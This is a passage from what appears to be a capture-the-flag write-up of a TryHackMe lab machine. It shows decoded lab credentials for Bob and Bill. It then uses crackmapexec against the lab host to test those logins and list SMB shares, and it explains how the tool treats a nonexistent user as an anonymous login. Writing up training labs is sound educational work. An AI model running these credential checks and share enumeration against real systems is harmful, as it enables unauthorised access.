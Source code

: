 ### Decoded Content
```console
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$
```
We get a bunch of username and passwords. So, lets try check if the credentials are valid.
### Using crackmapexec
```
local@local:~/Documents/tryhackme/relevant$ cat user 
Bob
Bill

local@local:~/Documents/tryhackme/relevant$ cat password
!P@$$W0rD!123
Juw4nnaM4n420696969!$$$
```
```console
local@local:~/Documents/tryhackme/relevant$ crackmapexec smb 10.10.240.19 -u user -p password
SMB         10.10.240.19    445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.240.19    445    RELEVANT         [+] Relevant\Bob:!P@$$W0rD!123
```
CME shows that the credentials for Bob is valid. So lets try to list shares for user Bob.
### Listing shares using CME for user Bob
```console
local@local:~/Documents/tryhackme/relevant$ crackmapexec smb 10.10.240.19 -u user -p password --shares
SMB         10.10.240.19    445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.240.19    445    RELEVANT         [+] Relevant\Bob:!P@$$W0rD!123 
SMB         10.10.240.19    445    RELEVANT         [+] Enumerated shares
SMB         10.10.240.19    445    RELEVANT         Share           Permissions     Remark
SMB         10.10.240.19    445    RELEVANT         -----           -----------     ------
SMB         10.10.240.19    445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.240.19    445    RELEVANT         C$                              Default share
SMB         10.10.240.19    445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.240.19    445    RELEVANT         nt4wrksv        READ,WRITE
```
Looks like we have write permissions for the share **nt4wrksv**. But it is not over yet. If I specify some user that definitely doesnot exist like **this_user_doesnot_exist**, the output of the CME will be the following.

### Listing shares for user this_user_doesnot_exist
```console
local@local:~/Documents/tryhackme/relevant$ crackmapexec smb 10.10.240.19 -u 'this_doesnot_exists' -p 'this_doesnot_exist' --shares
SMB         10.10.240.19    445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.240.19    445    RELEVANT         [+] Relevant\this_doesnot_exists:this_doesnot_exist 
SMB         10.10.240.19    445    RELEVANT         [+] Enumerated shares
SMB         10.10.240.19    445    RELEVANT         Share           Permissions     Remark
SMB         10.10.240.19    445    RELEVANT         -----           -----------     ------
SMB         10.10.240.19    445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.240.19    445    RELEVANT         C$                              Default share
SMB         10.10.240.19    445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.240.19    445    RELEVANT         nt4wrksv        READ,WRITE 
```
CME tells us that this is a valid credential and list the shares for us, but this user possibly can not exist and if it does the password cant be the one that we provided. What CME did was, it did the anonymous authentication for the users that does not exist. But it did tell that password of one of our user is incorrect and that might be valid user on the box ie **Bill**.